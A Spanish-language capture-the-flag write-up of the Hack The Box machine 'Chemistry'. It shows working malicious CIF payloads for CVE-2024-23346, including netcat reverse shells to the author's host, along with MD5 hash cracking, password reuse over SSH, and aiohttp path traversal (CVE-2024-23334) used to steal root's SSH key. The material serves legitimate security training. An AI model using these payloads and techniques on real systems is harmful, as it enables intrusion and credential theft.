

+++
author = "Andrés Del Cerro"
title = "Hack The Box: Chemistry Writeup | Easy"
date = "2025-03-19"
description = ""
tags = [
    "HackTheBox",
    "Chemistry",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Linux",
    "HTTP Enumeration",
    "Server-Side Request Forgery",
    "SSRF",
    "CVE-2024-23346",
    "Information Disclosure",
    "Hash Cracking",
    "Cracking",
    "User Pivoting",
    "Port Forwarding",
    "Directory Path Traversal",
    "CVE-2024-23334"
]

+++

# Hack The Box: Chemistry Writeup

Welcome to my detailed writeup of the easy difficulty machine **"Chemistry"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```console
$ rustscan -a 10.129.201.7 --ulimit 5000 -g
10.129.201.7 -> [22,5000]
```

```console
$ nmap -p22,5000 -sCV 10.129.201.7 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-21 15:24 CEST 
Nmap scan report for 10.129.201.7
Host is up (0.049s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b6:fc:20:ae:9d:1d:45:1d:0b:ce:d9:d0:20:f2:6f:dc (RSA)
|   256 f1:ae:1c:3e:1d:ea:55:44:6c:2f:f2:56:8d:62:3c:2b (ECDSA)
|_  256 94:42:1b:78:f2:51:87:07:3e:97:26:c9:a2:5c:0a:26 (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.3 Python/3.9.5
|     Date: Mon, 21 Oct 2024 11:25:03 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 719
|     Vary: Cookie
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Chemistry - Home</title>
|     <link rel="stylesheet" href="/static/styles.css">
|     </head>
|     <body>
|     <div class="container">
|     class="title">Chemistry CIF Analyzer</h1>
|     <p>Welcome to the Chemistry CIF Analyzer. This tool allows you to upload a CIF (Crystallographic Information File) and analyze the structural data contained within.</p>
|     <div class="buttons">
|     <center><a href="/login" class="btn">Login</a>
|     href="/register" class="btn">Register</a></center>
|     </div>
|     </div>
|     </body>
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.94SVN%I=7%D=10/21%Time=6716562C%P=x86_64-pc-linux-gnu%
SF:r(GetRequest,38A,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/3\.0\.3
SF:\x20Python/3\.9\.5\r\nDate:\x20Mon,\x2021\x20Oct\x202024\x2011:25:03\x2
SF:0GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:
SF:\x20719\r\nVary:\x20Cookie\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20
SF:html>\n<html\x20lang=\"en\">\n<head>\n\x20\x20\x20\x20<meta\x20charset=
SF:\"UTF-8\">\n\x20\x20\x20\x20<meta\x20name=\"viewport\"\x20content=\"wid
SF:th=device-width,\x20initial-scale=1\.0\">\n\x20\x20\x20\x20<title>Chemi
SF:stry\x20-\x20Home</title>\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\
SF:x20href=\"/static/styles\.css\">\n</head>\n<body>\n\x20\x20\x20\x20\n\x
SF:20\x20\x20\x20\x20\x20\n\x20\x20\x20\x20\n\x20\x20\x20\x20<div\x20class
SF:=\"container\">\n\x20\x20\x20\x20\x20\x20\x20\x20<h1\x20class=\"title\"
SF:>Chemistry\x20CIF\x20Analyzer</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>
SF:Welcome\x20to\x20the\x20Chemistry\x20CIF\x20Analyzer\.\x20This\x20tool\
SF:x20allows\x20you\x20to\x20upload\x20a\x20CIF\x20\(Crystallographic\x20I
SF:nformation\x20File\)\x20and\x20analyze\x20the\x20structural\x20data\x20
SF:contained\x20within\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<div\x20clas
SF:s=\"buttons\">\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<center
SF:><a\x20href=\"/login\"\x20class=\"btn\">Login</a>\n\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20<a\x20href=\"/register\"\x20class=\"btn\">R
SF:egister</a></center>\n\x20\x20\x20\x20\x20\x20\x20\x20</div>\n\x20\x20\
SF:x20\x20</div>\n</body>\n<")%r(RTSPRequest,1F4,"<!DOCTYPE\x20HTML\x20PUB
SF:LIC\x20\"-//W3C//DTD\x20HTML\x204\.01//EN\"\n\x20\x20\x20\x20\x20\x20\x
SF:20\x20\"http://www\.w3\.org/TR/html4/strict\.dtd\">\n<html>\n\x20\x20\x
SF:20\x20<head>\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20http-equiv=\"Con
SF:tent-Type\"\x20content=\"text/html;charset=utf-8\">\n\x20\x20\x20\x20\x
SF:20\x20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</head>
SF:\n\x20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20
SF:response</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400
SF:</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20
SF:version\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Er
SF:ror\x20code\x20explanation:\x20HTTPStatus\.BAD_REQUEST\x20-\x20Bad\x20r
SF:equest\x20syntax\x20or\x20unsupported\x20method\.</p>\n\x20\x20\x20\x20
SF:</body>\n</html>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 21 15:26:34 2024 -- 1 IP address (1 host up) scanned in 102.65 seconds
```
# UDP Enumeration

```console
$ sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.201.7 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-21 15:26 CEST
Nmap scan report for 10.129.201.7
Host is up (0.051s latency).
Not shown: 1494 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
21/udp    closed ftp
16433/udp closed unknown
24950/udp closed unknown
25212/udp closed unknown
27579/udp closed unknown
34892/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.96 seconds
```

# HTTP Enumeration (5000/TCP)
Lo único en claro del escaneo inicial es que nos enfrentamos contra un servidor web Flask `(Werkzeug/3.0.3 Python/3.9.5)`

`whatweb` no nos reporta nada que no sepamos.
```console
$ whatweb http://10.129.201.7:5000
http://10.129.201.7:5000 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/3.0.3 Python/3.9.5], IP[10.129.201.7], Python[3.9.5], Title[Chemistry - Home], Werkzeug[3.0.3]
```

Así se ve el sitio web.


Si creamos una cuenta tenemos una función para subir un archivo `.cif`


Antes de nada, podemos comprobar que la consola típica en Flask está desactivada.


Se nos proporciona un ejemplo de este archivo, tiene esta pinta.
```text
data_Example                                                                              
_cell_length_a    10.00000                                                                
_cell_length_b    10.00000                                                                
_cell_length_c    10.00000                                                                
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
```

Podemos subir este mismo archivo y vemos que podemos observarlo.


# Server-Side Request Forgery (CVE-2024-23346)
Los valores de este archivo parece ser que se están interpretando, podríamos probar a hacer un SSRF.


Vamos a editar uno de los valores.


Y al subir este archivo vemos un error 500.


Buscando por exploits de parseadores CIF en Python, encontré [este artículo](https://ethicalhacking.uk/cve-2024-23346-arbitrary-code-execution-in-pymatgen-via-insecure/#gsc.tab=0)

Utilizando el PoC adjunto pero modificando el comando a ejecutar para mandarme una traza ICMP a mi máquina.
```console
$ cat poc.cif 
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in
().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" +
"classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("ping -c 10.10.16.15");0,0,0'

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Podemos subirlo y cargarlo y seguimos con ese error 500. Según el artículo es normal, ya que la librería al intentar interpretar el archivo CIF lanza una excepción.


Pero no recibimos ninguna traza.
```console
$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

Vamos a coger la línea donde se explota la vulnerabilidad de la función `JonesFaithfulTransformation.from_transformation_str()`

Que son las siguientes.


Y a partir del archivo de ejemplo que si lo interpreta correctamente, vamos a añadirlo.

```python
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("ping -c 1 10.10.16.15");0,0,0'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Ahora si lo subimos y lo intentamos visualizar, vemos que si que nos llega la traza ICMP.
```console
$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
15:57:01.643572 IP 10.129.201.7 > 10.10.16.15: ICMP echo request, id 2, seq 1, length 64
15:57:01.643599 IP 10.10.16.15 > 10.129.201.7: ICMP echo reply, id 2, seq 1, length 64
```

Seguimos viendo el error 500 pero eso era esperado, ahora vamos a ganar acceso a la máquina.


Editamos el archivo con el código malicioso para enviarnos una reverse shell.
```console
$ cat example.cif 
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("nc 10.10.16.15 443 -e /bin/bash");0,0,0'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

No recibimos la reverse shell.
```console
$ sudo pwncat-cs -lp 443
[16:00:49] Welcome to pwncat 🐈!                                           __main__.py:164
bound to 0.0.0.0:443 ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
```

Después de probar varias reverse shell's, la siguiente funcionó.


Este es exploit final.
```python
$ cat example.cif 
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("busybox nc 10.10.16.15 443 -e /bin/bash");0,0,0'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Y ganamos acceso como el usuario `app`
```console
[16:06:27] received connection from 10.129.201.7:52194                                                                        bind.py:84
[16:06:29] 10.129.201.7:52194: registered new host w/ db                                                                  manager.py:957
(local) pwncat$                                                                                                                         
(remote) app@chemistry:/home/app$ id
uid=1001(app) gid=1001(app) groups=1001(app)
```

# User Pivoting
## Leaking Database user hashes
Vemos que existe otro usuario llamado `rosa`
```console
(remote) app@chemistry:/home/app$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
rosa:x:1000:1000:rosa:/home/rosa:/bin/bash
app:x:1001:1001:,,,:/home/app:/bin/bash
```

Analizando el archivo `app.py` vemos que se está utilizando SQLite y que el archivo se llama `database.db`


Podemos hacer una simple búsqueda con `find` para encontrar el archivo, y vemos la ruta.

```console
(remote) app@chemistry:/home/app/$ find / -type f -name database.db 2>/dev/null
/home/app/instance/database.db
```

Haciendo uso de la función interna `download` de `pwncat-cs` vamos a descargarnos el archivo para indagar en nuestra máquina de atacante mas tranquilamente.

```console
(local) pwncat$ download /home/app/instance/database.db
/home/app/instance/database.db ━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 20.5/20.5 kB • ? • 0:00:00
[16:10:07] downloaded 20.48KiB in 0.61 seconds    
```

Vemos dos tablas, la que mas me llama la atención es la de usuarios.
```console
sqlite> .tables
structure  user
```

```sql
sqlite> select * from user;
1|admin|2861debaf8d99436a10ed6f75a252abf
2|app|197865e46b878d9e74a0346b6d59886a
3|rosa|63ed86ee9f624c7b14f1d4f43dc251a5
4|robert|02fcf7cfc10adc37959fb21f06c6b467
5|jobert|3dec299e06f7ed187bac06bd3b670ab2
6|carlos|9ad48828b0955513f7cf0f7f6510c8f8
7|peter|6845c17d298d95aa942127bdad2ceb9b
8|victoria|c3601ad2286a4293868ec2a4bc606ba3
9|tania|a4aa55e816205dc0389591c9f82f43bb
10|eusebio|6cad48078d0241cca9a7b322ecd073b3
11|gelacia|4af70c80b68267012ecdac9a7e916d18
12|fabian|4e5d71f53fdd2eabdbabb233113b5dc0
13|axel|9347f9724ca083b17e39555c36fd9007
14|kristel|6896ba7b11a62cacffbdaded457c6d92
15|pointed|c416671d05d001fca2433d9855e3c905
```

Vemos un hash MD5 de `rosa`, vamos a intentar crackearlo, pero antes vamos a comprobar que es un hash MD5 íntegro y no se ha hecho ningún proceso antes.

## Cracking MD5 Hash
Podemos revisar el código de `app.py` en la función de registro de usuario, y vemos que efectivamente es un simple MD5.


Y fácilmente conseguimos crackear el hash.
```console
$ hashcat -a 0 -m 0 hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-haswell-AMD Ryzen 5 2600X Six-Core Processor, 2201/4467 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

63ed86ee9f624c7b14f1d4f43dc251a5:unicorniosrosados        
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 63ed86ee9f624c7b14f1d4f43dc251a5
Time.Started.....: Mon Oct 21 16:13:47 2024 (1 sec)
Time.Estimated...: Mon Oct 21 16:13:48 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2649.0 kH/s (0.14ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2983936/14344385 (20.80%)
Rejected.........: 0/2983936 (0.00%)
Restore.Point....: 2981888/14344385 (20.79%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: unicornn -> underwear88
Hardware.Mon.#1..: Util: 42%

Started: Mon Oct 21 16:13:46 2024
Stopped: Mon Oct 21 16:13:50 2024
```

Vemos la credencial `unicorniosrosados`, vamos a ver si el usuario `rosa` ha reutilizado credenciales.

Y vemos que sí.
```console
$ sshpass -p 'unicorniosrosados' ssh rosa@10.129.201.7                                                                                                                                                                                                                  
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-196-generic x86_64)                                                                                                                                                                                                              

 * Documentation:  https://help.ubuntu.com                          
 * Management:     https://landscape.canonical.com                                                                                      
 * Support:        https://ubuntu.com/pro                           

 System information as of Mon 21 Oct 2024 12:14:48 PM UTC                                                                               

  System load:           0.0                                        
  Usage of /:            73.9% of 5.08GB                            
  Memory usage:          25%                                        
  Swap usage:            0%                                         
  Processes:             230                                        
  Users logged in:       0                                          
  IPv4 address for eth0: 10.129.201.7                               
  IPv6 address for eth0: dead:beef::250:56ff:fe94:21ec                                                                                  


Expanded Security Maintenance for Applications is not enabled.                                                                          

0 updates can be applied immediately.                               

9 additional security updates can be applied with ESM Apps.                                                                             
Learn more about enabling ESM Apps service at https://ubuntu.com/esm                                                                    


The list of available updates is more than a week old.                                                                                  
To check for new updates run: sudo apt update                                                                                           

Last login: Mon Oct 21 12:14:49 2024 from 10.10.16.15                                                                                   
rosa@chemistry:~$ id                                                
uid=1000(rosa) gid=1000(rosa) groups=1000(rosa)    
```

Podemos leer la flag de usuario.
```console
rosa@chemistry:~$ cat user.txt 
a0ceaf866aa6dfd3...
```

# Privilege Escalation
## Port Forwarding
Viendo los procesos del sistema con `ps aux` encontramos uno interesante, otra aplicación web pero esta el usuario propietario es `root`


No podemos acceder al código de la aplicación.
```console
rosa@chemistry:~$ cd /opt/monitoring_site/
-bash: cd: /opt/monitoring_site/: Permission denied
```

Podemos descubrir el puerto en el que esta aplicación está hospedada y podemos suponer que está en el puerto 8080.
```console
rosa@chemistry:~$ netstat -tulnp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -                  
```

Vamos a cerrar la sesión SSH, para abrir otra pero esta vez haciendo Port Forwarding.

```console
$ sshpass -p 'unicorniosrosados' ssh -L 8081:127.0.0.1:8080 rosa@10.129.201.7
```

Voy a hospedar en mi puerto local 8081 (ya que por el 8080 tengo el burpsuite) lo que se encuentre en la máquina víctima por el puerto 8080.

Ahora podemos comprobar que esto ha funcionado accediendo a `http://127.0.0.1:8081`


# Enumerating Internal Web Application
El sitio web se ve bastante estático excepto por la función `List Services`


Lanzando el `whatweb` vemos algo interesante.
```console
$ whatweb 127.0.0.1:8081
http://127.0.0.1:8081 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Python/3.9 aiohttp/3.9.1], IP[127.0.0.1], JQuery[3.6.0], Script, Title[Site Monitoring]
```

Se está utilizando `aiohttp/3.9.1`, es decir, no es una aplicación Flask.

# Directory Path Traversal (CVE-2024-23334)
`aiohttp` es una librería asíncrona en Python que facilita la creación de clientes y servidores HTTP. Está diseñada para manejar múltiples conexiones de manera eficiente utilizando el enfoque asíncrono de Python basado en `asyncio`.

Una simple búsqueda en Google nos revela que la versión está desactualizada, y que esta versión en específico tiene una vulnerabilidad de tipo Path Traversal, por lo cual quizás podamos leer archivos de `root`


También nos encontramos [este artículo](https://ethicalhacking.uk/cve-2024-23334-aiohttps-directory-traversal-vulnerability/#gsc.tab=0) explicando la vulnerabilidad.

Volviendo al PoC, nos clonamos el repositorio.
```console
$ git clone https://github.com/z3rObyte/CVE-2024-23334-PoC
Cloning into 'CVE-2024-23334-PoC'...
remote: Enumerating objects: 22, done.
remote: Counting objects: 100% (22/22), done.
remote: Compressing objects: 100% (17/17), done.
remote: Total 22 (delta 7), reused 0 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (22/22), 6.39 KiB | 6.39 MiB/s, done.
Resolving deltas: 100% (7/7), done.
```


Leyendo el servidor de prueba vulnerable, vemos el siguiente código.
```python
async def main():
    app = web.Application()
    app.router.add_get('/', index)
    app.router.add_static('/static/',
                          path='static/',
                          follow_symlinks=True)
```

Al parecer, necesitamos una ruta válida que exista en el servidor web vulnerable.

Fuzzeando rápidamente encontramos la ruta `/assets`
```console
$ feroxbuster -u http://127.0.0.1:8081 -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.
txt -d 1 -t 100
....
404      GET        1l        3w       14c Auto-filtering found 404-like response and created new filter; toggle
 off with --dont-filter
200      GET        5l       83w    59344c http://127.0.0.1:8081/assets/css/all.min.css
200      GET        2l     1294w    89501c http://127.0.0.1:8081/assets/js/jquery-3.6.0.min.js
200      GET       88l      171w     1380c http://127.0.0.1:8081/assets/css/style.css
200      GET       72l      171w     2491c http://127.0.0.1:8081/assets/js/script.js
```

Ahora vamos a realizar la explotación, modificamos el archivo `exploit.sh`

Modificamos las variables `url` y `payload` con la ruta encontrada de la siguiente forma.


Le damos permisos de ejecución, y al ejecutarlo vemos el contenido de `/etc/passwd`, por lo cual confirmamos que es vulnerable a Path Traversal.
```console
$ ./exploit.sh 
[+] Testing with /assets/../etc/passwd
        Status code --> 404
[+] Testing with /assets/../../etc/passwd
        Status code --> 404
[+] Testing with /assets/../../../etc/passwd
        Status code --> 200
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
rosa:x:1000:1000:rosa:/home/rosa:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
app:x:1001:1001:,,,:/home/app:/bin/bash
_laurel:x:997:997::/var/log/laurel:/bin/false
```

Podemos hacer esta explotación manualmente con `burpsuite` ya que los navegadores suelen regularizar las URL's.


Podemos leer la flag, pero la gracia es pivotar al usuario `root`


Para ello, podemos ver que el usuario `root` tiene una clave privada, así que nos la vamos a copiar a un archivo `id_rsa.root`


Le damos los permisos necesarios.
```console
$ chmod 600 id_rsa.root 
```

Y ahora podemos conseguir una sesión SSH como `root` en la máquina víctima haciendo uso de esta clave privada.
```console
$ ssh -i id_rsa.root root@10.129.201.7
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-196-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Mon 21 Oct 2024 12:36:44 PM UTC

  System load:           0.0
  Usage of /:            74.1% of 5.08GB
  Memory usage:          26%
  Swap usage:            0%
  Processes:             234
  Users logged in:       1
  IPv4 address for eth0: 10.129.201.7
  IPv6 address for eth0: dead:beef::250:56ff:fe94:21ec


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

9 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri Oct 11 14:06:59 2024
root@chemistry:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Ahora sí, podemos leer la flag de `root`
```console
root@chemistry:~# cat root.txt 
e41f817922987...
```

¡Y ya estaría!

Happy Hacking! 🚀